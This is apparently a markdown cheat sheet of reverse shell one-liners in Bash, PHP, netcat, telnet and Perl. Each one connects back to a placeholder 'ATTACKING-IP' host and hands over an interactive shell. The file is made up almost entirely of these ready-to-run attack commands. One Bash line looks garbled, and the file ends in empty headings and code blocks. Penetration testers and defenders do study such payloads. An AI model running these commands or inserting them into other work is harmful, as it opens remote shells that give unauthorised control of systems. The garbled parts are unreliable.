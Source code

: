 # Bash Reverse Shells

```bash
exec /bin/bash 0&0 2>&0

```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

# PHP Reverse Shell

```php

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

# Netcat Reverse Shell

```shell

nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

# Telnet Reverse Shell

```bash

rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

```

# Perl Reverse Shell

```bash

perl -e 'use Socket;$i="ATTACKINGIP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

#

```

```

#

```

```

#

```

```

#

```

```
